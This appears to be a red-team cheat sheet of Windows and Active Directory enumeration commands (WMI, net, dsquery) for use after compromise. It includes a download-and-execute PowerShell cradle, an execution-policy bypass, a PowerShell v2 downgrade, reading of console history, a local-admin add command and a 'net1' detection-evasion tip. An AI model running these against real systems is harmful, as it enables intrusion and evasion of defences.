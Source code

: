 ```yaml
---
tags:
  - Authenticated
  - Local
  - OPSEC
  - AD
---
```

## OS Context
---
Basic enum commands

|   |   |
|---|---|
|**Command**|**Result**|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

```PowerShell
systeminfo
```
## Powershell
---
```PowerShell
Get-Module
```
```PowerShell
Get-ExecutionPolicy -List
```
```PowerShell
Set-ExecutionPolicy Bypass -Scope Process
```
```PowerShell
Get-ChildItem Env: | ft Key,Value
```
```PowerShell
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
```PowerShell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
## OPSEC Techniques
---
```PowerShell
powershell.exe -version 2
```
### **Checking Defenses**
---
```PowerShell
netsh advfirewall show allprofiles
```
```PowerShell
sc query windefend
```
```PowerShell
Get-MpComputerStatus
```
### Other users on host?
---
```PowerShell
qwinsta
```
### **Network Information**
---
```PowerShell
arp -a
ipconfig /all
route print
```

!!! info "note"
	Using arp -a and route print will not only benefit in enumerating AD environments, but will also assist us in identifying opportunities to pivot to different network segments in any environment.
### **Windows Management Instrumentation (WMI)**
---
```PowerShell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```PowerShell
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```
```PowerShell
wmic process list /format:list
```
```PowerShell
wmic ntdomain list /format:list
```
```PowerShell
wmic useraccount list /format:list
```
```PowerShell
wmic group list /format:list
```
```PowerShell
wmic sysaccount list /format:list
```
[https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4)
## **Net Commands**
---
```PowerShell
net accounts
```
```PowerShell
net accounts /domain
```
```PowerShell
net group /domain
```
```PowerShell
net group "Domain Admins" /domain
```
```PowerShell
net group "domain computers" /domain
```
```PowerShell
net group "Domain Controllers" /domain
```
```PowerShell
net group <domain_group_name> /domain
```
```PowerShell
net groups /domain
```
List of domain groups
```PowerShell
net localgroup
```
```PowerShell
net localgroup administrators /domain
```
```PowerShell
net localgroup Administrators
```
```PowerShell
net localgroup administrators [username] /add
```
```PowerShell
net share
```
```PowerShell
net user <ACCOUNT_NAME> /domain
```
```PowerShell
net user /domain
```
```PowerShell
net user %username%
```
Information about the current user
```PowerShell
net use x: \computer\share
```
```PowerShell
net view
```
```PowerShell
net view /all /domain[:domainname]
```
```PowerShell
Shares on the domains
```
```PowerShell
net view /domain 
```


!!! info "OPSEC"
	Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.
## **Dsquery**
---
```PowerShell
C:\Windows\System32\dsquery.dll
```

!!! info "note"
	Elevated privs required for dsquery



```PowerShell
dsquery user
```
```PowerShell
dsquery computer
```
We can use a [dsquery wildcard search](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754232\(v=ws.11\)) to view all objects in an OU, for example.
```PowerShell
dsquery * "CN=Users,DC=DOMAIN,DC=LOCAL"
```
```PowerShell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```
```PowerShell
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```